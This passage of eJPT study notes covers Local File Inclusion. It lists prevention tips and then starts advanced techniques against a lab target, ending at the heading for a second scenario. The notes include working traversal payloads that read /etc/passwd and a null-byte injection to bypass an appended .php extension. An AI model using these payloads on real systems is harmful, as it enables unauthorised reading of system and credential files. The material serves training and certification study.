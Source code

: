 4. **Preventing LFI Vulnerabilities:**
   - Implement robust input validation and sanitization.
   - Use allowlists to restrict permissible file inclusions.
   - Avoid using user input directly in file inclusion functions.

5. **Practical Exercises:**
   - Set up a vulnerable web application to practice identifying and exploiting LFI.
   - Use different payloads to understand the behavior of the application and how it handles file inclusion.

By mastering the concepts and techniques related to LFI vulnerabilities, students can better prepare for practical cybersecurity challenges, including those encountered in the EJPT exam.

-----
### Advanced Local File Inclusion (LFI) Techniques

Local File Inclusion (LFI) vulnerabilities allow attackers to include files on a server through web browser input. This section covers advanced techniques for exploiting LFI vulnerabilities, especially in scenarios where source code is not available (black box testing) and various filters are in place.

#### Scenario 1: Bypassing File Extension Filters with Null Bytes

**Vulnerable Entry Point:**

```php
http://webapp.thm/index.php?lang=EN
```

**Observation:**
- Invalid input such as `THM` gives an error:
  ```plaintext
  Warning: include(languages/THM.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
  ```
- The error shows the include path and indicates `.php` is appended to the input.

**Exploit:**
- Using directory traversal to escape the intended directory:
  ```plaintext
  http://webapp.thm/index.php?lang=../../../../etc/passwd
  ```
- If the `.php` extension is appended, the server will look for `passwd.php`, which doesn't exist.

**Bypassing with Null Byte:**
- Null Byte injection terminates the string before `.php`:
  ```plaintext
  http://webapp.thm/index.php?lang=../../../../etc/passwd%00
  ```
- This makes the include function consider the input as `include("languages/../../../../../etc/passwd");`

**Important Note for EJPT:**
- Understand the concept of Null Byte injection and its limitations (fixed in PHP 5.3.4 and above).

#### Scenario 2: Bypassing Filters with Current Directory Trick
